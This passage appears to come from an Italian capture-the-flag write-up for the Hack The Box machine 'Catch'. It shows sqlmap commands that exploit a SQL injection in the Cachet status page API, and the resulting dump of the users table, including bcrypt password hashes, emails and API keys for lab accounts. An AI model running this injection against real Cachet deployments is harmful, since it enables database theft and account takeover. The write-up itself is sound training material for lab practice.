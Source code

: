```mysql
| metrics             |
| migrations          |
| notifications       |
| schedule_components |
| schedules           |
| sessions            |
| settings            |
| subscribers         |
| subscriptions       |
| taggables           |
| tags                |
| users               |
+---------------------+
```

Ci ricaviamo il nome delle colonne della tabella *users*: `sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --batch --dbms mysql --thread 10 -D cachet -T users --dump` 

```mysql
[05:50:21] [INFO] retrieved: id
[05:50:30] [INFO] retrieved: username
[05:51:01] [INFO] retrieved: password
[05:51:38] [INFO] retrieved: remember_token
[05:52:39] [INFO] retrieved: google_2fa_secret
[05:54:00] [INFO] retrieved: email
[05:54:18] [INFO] retrieved: api_key
[05:54:51] [INFO] retrieved: active
[05:55:14] [INFO] retrieved: level
[05:55:37] [INFO] retrieved: welcomed
[05:56:11] [INFO] retrieved: created_at
[05:56:52] [INFO] retrieved: updated_at
```

Vediamo di ricavarci le info riferite a *username, password, email, api_key*: `sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --batch --dbms mysql --thread 10 -D cachet -T users -C username,password,email,api_key --dump`

```mysql
Database: cachet
Table: users
[2 entries]
+----------+--------------------------------------------------------------+-----------------+----------------------+
| username | password                                                     | email           | api_key              |
+----------+--------------------------------------------------------------+-----------------+----------------------+
| admin    | $2y$10$quY5ttamPWVo54lbyLSWEu00A/tkMlqoFaEKwJSWPVGHpVK2Wj7Om | admin@catch.htb | rMSN8kJN9TPADl2cWv8N |
| john     | $2y$10$2jcDURPAEbv2EEKto0ANb.jcjgiAwWzkwzZKNT9fUpOziGjJy5r8e | john@catch.htb  | 7GVCqTY5abrox48Nct8j |
+----------+--------------------------------------------------------------+-----------------+----------------------+
```
